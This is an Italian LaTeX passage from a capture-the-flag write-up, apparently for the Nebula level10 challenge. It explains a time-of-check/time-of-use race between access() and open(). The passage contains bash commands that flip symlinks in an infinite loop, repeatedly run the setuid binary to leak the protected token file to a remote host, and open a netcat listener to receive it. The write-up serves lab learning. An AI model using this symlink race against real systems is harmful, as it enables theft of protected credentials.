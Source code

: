 Creiamo il softlink a \textbf{tokenfinto}:
\begin{lstlisting}[style=bashstyle]
ln -s /tmp/tokenfinto /home/level10/flag
\end{lstlisting} 
Il soft link ci fa superare il controllo della access, perché abbiamo accesso al file puntato (abbiamo creato noi tokenfinto).
Una volta superato il controllo della access, creiamo un soft link al file token vero:
\begin{lstlisting}[style=bashstyle]
ln -sf /home/flag10/token /home/level10/flag 
\end{lstlisting} 
Il soft link ci fa superare il controllo della open, come in Level04.
Una singola esecuzione dell'attacco suggerito non è sufficiente, infatti potremmo non individuare il momento giusto per lo scambio del file tra la access() e la open().
Servono più esecuzioni del programma per far sì che il softlink, all'apertura della open(), punti al file token. Possiamo usare l'istruzione \textbf{BASH while true} per creare un ciclo infinito. Mettiamo il processo in background con \textbf{\&}:
\begin{lstlisting}[style=bashstyle]
    while true; do ln -sf /tmp/tokenfinto /home/level10/flag; ln -sf /home/flag10/token /home/level10/flag; done &
\end{lstlisting} 
Creiamo un ciclo infinito di esecuzione di flag10 con:
\begin{lstlisting}[style=bashstyle]
    while true; do /home/flag10/flag10 /home/level10/flag IPAddress; done
\end{lstlisting} 
Sull'host otteniamo quindi il token dopo vari tentativi. Usiamo il token per entrare come flag10 e vincere la sfida.

\subsection{Sintesi comandi da eseguire}
\subsubsection{Sulla seconda macchina virtuale}
\begin{lstlisting}[style=bashstyle]
    # recupera ip
    ip addr
    # metti in ascolto sulla porta 18211
    nc -lvnp 18211
\end{lstlisting}

